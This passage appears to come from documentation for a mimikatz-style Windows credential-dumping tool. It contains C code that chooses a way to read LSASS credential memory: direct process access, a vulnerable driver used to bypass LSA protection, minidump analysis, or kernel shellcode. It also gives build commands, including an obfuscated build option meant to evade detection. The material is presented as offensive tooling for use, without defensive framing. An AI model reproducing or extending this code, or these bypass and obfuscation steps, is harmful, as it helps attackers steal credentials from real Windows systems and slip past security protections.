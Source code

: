 ```c
typedef enum _SEKURLSA_ACCESS_METHOD {
    SEKURLSA_ACCESS_USERMODE,      // Standard OpenProcess
    SEKURLSA_ACCESS_DRIVER,         // Via vulnerable driver
    SEKURLSA_ACCESS_MINIDUMP,       // Offline dump analysis
    SEKURLSA_ACCESS_KERNEL_SHELLCODE  // Direct kernel shellcode
} SEKURLSA_ACCESS_METHOD;

NTSTATUS SelectAccessMethod(SEKURLSA_ACCESS_METHOD *method) {
    if (IsLsaProtectionEnabled()) {
        if (DriverAvailable()) {
            *method = SEKURLSA_ACCESS_DRIVER;
        } else {
            *method = SEKURLSA_ACCESS_MINIDUMP;
            kprintf(L"[!] PPL enabled but no driver available. Use minidump mode.\n");
        }
    } else {
        *method = SEKURLSA_ACCESS_USERMODE;
    }
    return STATUS_SUCCESS;
}
```

## Build System Requirements

### Prerequisites
- Visual Studio 2022 (Community Edition or higher)
- Windows SDK 10.0.22621.0 or later
- Windows Driver Kit (WDK) 10.0.22621.0 (for driver compilation)
- Git for version control
- Python 3.10+ (for build automation)

### Optional
- CMake 3.20+ (alternative build system)
- LLVM/Clang (for additional obfuscation)

### Compile Commands

**Standard Build:**
```cmd
msbuild mimikatz.sln /p:Configuration=Release /p:Platform=x64
```

**With Obfuscation:**
```cmd
msbuild mimikatz.sln /p:Configuration=Release /p:Platform=x64 /p:Obfuscate=true
```

**CMake Build:**
```cmd
mkdir build && cd build
cmake .. -G "Visual Studio 17 2022" -A x64
cmake --build . --config Release
```
